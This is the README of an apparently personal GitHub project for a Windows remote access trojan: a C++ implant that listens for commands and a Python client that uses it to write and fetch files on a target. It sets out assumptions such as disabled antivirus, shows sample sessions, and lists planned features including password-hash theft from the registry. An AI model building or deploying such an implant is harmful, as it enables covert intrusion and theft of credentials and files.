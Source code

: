 # Windows-RAT
This repository will serve as an exploratory environment where I will rely primarily on C++ and Windows APIs to delve into the deeper aspects of Windows security management along with the varying components and architectures that come within the Windows environment.

## Repository Breakdown

### RAT-DLL
All cpp *implant* side code that will, upon executing, open up a port on target and listen for commands sent by the user via Python CLI.

### RAT-Py
All py *client* side code that will, upon executing, open up a port on client and send commands to the implant via user input in the CLI.

### RAT-Exe
All cpp *implant* side code that will, upon executing, survey the target prior to loading our DLL that implements our functionality and opens communications back to client to accept commands.

## Assumptions
Current assumptions will include:
- The user has access to the target machine + network
- The user has the ability to or already has dropped .exe and .dll on target
- The user has remote shell/execution capabilities to launch payload on target
- Traditional antivirus programs have been disabled/mitigated

## Testing Environment
- Target machine is Window 10 Education version 10.0.19043 build 19043
- Python version for client is 3.7.16 (important for scapy use)

## Build Environment
- Visual Studio 2019 version 16.11.20

## Examples
### Startup
#### Required Args:
- ip - IP address of target
- port - port number our implant is listening on
#### Optional Args:
- N/A
```
pjsacchet@Patrick-Desktop:/mnt/c/Users/Admin/Projects/Personal/Windows-RAT/RAT-Py$ python3 RAT_Py_Main.py -ip 192.168.111.128 -port 1550
Reaching out to agent for connection establishment... 
Connected to agent at 192.168.111.128 on port 1550 
Please select from the following options:

            1) Write a file to a location on target

            2) Get a file from a specific location on target

            3) Exit

```

### Perform a *get file*
#### Required Args:
- filepath - File path on target to the file we want to get 
- outfilepath - Local file path where we want to write our file contents to 
#### Optional Args:
- overwrite - Whether or not to overwrite the file locally if it already exits (default is false)
```
> 2
Required params:

                -filepath - path to file on target

                -outfilepath - file to write to locally
Optional params:
                - overwrite - overwrite the file locally if it already exists
> -filepath C:\test.txt -outfilepath /mnt/c/Users/Admin/Projects/Personal/Windows-RAT/TestFiles/test.txt
Successful file get! Getting file contents...
Successfully wrote file contents to /mnt/c/Users/Admin/Projects/Personal/Windows-RAT/TestFiles/test.txt
Please select from the following options:

            1) Write a file to a location on target

            2) Get a file from a specific location on target

            3) Exit
```

## TODO
- Finish getfile functionality
  - Eventually add flags for offsets into file and chunksizes to send back to C2?
- Implement putfile functionality
- Implement password hash stealing via registry reads 
- Implement registry key read/write add/delete
- Implement get system info 
- Implement screenshot
